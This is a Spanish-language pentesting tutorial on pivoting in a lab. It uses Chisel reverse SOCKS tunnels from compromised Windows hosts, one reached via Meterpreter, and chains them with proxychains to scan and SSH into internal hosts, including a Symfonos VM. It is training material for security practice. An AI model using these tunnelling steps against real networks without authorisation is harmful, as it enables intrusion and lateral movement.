




# **Pivoting**

## Introducción
El objetivo es acceder desde Kali (Pentester) a equipos internos que no son accesibles directamente.
Para lograrlo, se deben encadenar túneles usando Chisel y enrutar tráfico con proxychains.

## Paso 1 — Preparación en Kali (Servidor)

En Kali se inicia un servidor Chisel para aceptar conexiones inversas.

```bash
./chisel server -p 8001 --reverse
```
Esto deja a Kali esperando conexiones en el puerto 8001.




## Paso 2 — Conexión desde PC1 (Windows)

En Windows (PC1) se inicia un cliente Chisel apuntando al servidor en Kali.
Se crea un túnel SOCKS hacia Kali.

```bash
chisel.exe client 192.168.1.107:8001 R:3080:socks
```


Esto crea un proxy SOCKS en Kali (puerto 3080), permitiendo enrutar tráfico hacia la red interna de Windows.

Resultado:
Kali ahora puede pivotar y alcanzar PC2 a través de PC1.

## Paso 3 — Preparación en PC2 (Windows / Meterpreter)
Imagen: 1CHISELwindowsMeterpreter.png

Desde Meterpreter en PC2 (Windows) se levanta un nuevo servidor Chisel.

```bash
chisel.exe server -p 8002 --reverse
```


Este túnel quedará a la espera de nuevas conexiones que vendrán desde PC3 o Symfonos.

## Paso 4 — Conexión desde PC3 / Symfonos
Imagen: PC2-ssh-chisel.png

En PC3 y PC4 se inicia un cliente Chisel que se conecta al servidor Chisel de PC2.

```bash
./chisel client 10.10.10.4:8002 R:2080:socks
```


Esto crea un segundo proxy SOCKS, ahora en Symfonos, apuntando hacia PC2.

### Resultado:
**Symfonos puede pivotar a través de PC2 → PC1 → Kali → Internet/red externa.**
---

## Paso 5 — Configurar proxychains para pivoting completo



En Kali se configura proxychains para encadenar los túneles SOCKS:

```plaintext
strict_chain
proxy_dns

[ProxyList]
socks5 127.0.0.1 3080
socks5 127.0.0.1 2080
```
Resultado:
Cualquier comando en Kali usando proxychains seguirá la ruta completa:

```scss
Kali → PC1 (SOCKS 3080) → PC2 (SOCKS 2080) → PC3
```
Ejemplo de uso:

```bash
proxychains nmap -sT -Pn 10.10.20.12
proxychains ssh user@10.10.20.12
```